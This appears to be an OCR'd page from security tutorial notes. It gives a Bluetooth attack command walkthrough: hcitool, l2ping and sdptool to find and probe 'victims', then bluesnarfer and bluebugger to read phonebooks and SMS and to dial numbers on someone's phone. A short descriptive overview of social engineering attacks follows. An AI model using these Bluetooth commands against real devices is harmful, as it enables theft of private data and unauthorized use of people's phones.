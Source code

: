 **hcitool scan hci0**

(Scan for victims)

**hcitool scan hci0**

(ping the victim to see if he is awake)

**l2ping  \< victim mac addr\>**

(browse the victim for rfcomm channels to connect to)

**sdptool browse --tree --l2cap \< mac addr \>**

(then you can use bluesnarfer for example to read the victim’s
phonebook, dial a number or read Sms or other things.)

**Bluesnarfer -r 1-100 -C 7 -b \< mac addr \>**

(to see available options to do )

**bluebugger -h**

(Dial number )

**bluebugger -m \< victim name \> -c 7 -a \< mac addr \> Dial \< number
\>**

## Social Engineering Attacks

You can harden your defenses as much as you want. You can spend millions
of dollars on State of the Art Security Infrastructure. But if Susan the
systems administrator has all the access to your system, and gets
tricked into handling over her credentials, there's nothing you can do
to stop it. As we've learned from the greatest sci-fi movies, humans
will always be the weakest link in life, and in your security system.
Social engineering is a kind of con game where attackers use deceptive
techniques to gain access to personal information. They then try to have
a user execute something, and basically scam a victim into doing that
thing.

### Overview

**Social engineering** is a manipulation technique that exploits human
error to gain private information, access, or valuables. Human error is
usually a result of trusting someone without question. It’s the mission
of a threat actor, acting as a social engineer, to create an environment
of false trust and lies to exploit as many people as possible. 

Some of the most common types of social engineering attacks today
include:

- **Social media phishing:** A threat actor collects detailed
  information about their target from social media sites. Then, they
  initiate an attack.

- **Watering hole attack:** A threat actor attacks a website frequently
  visited by a specific group of users.
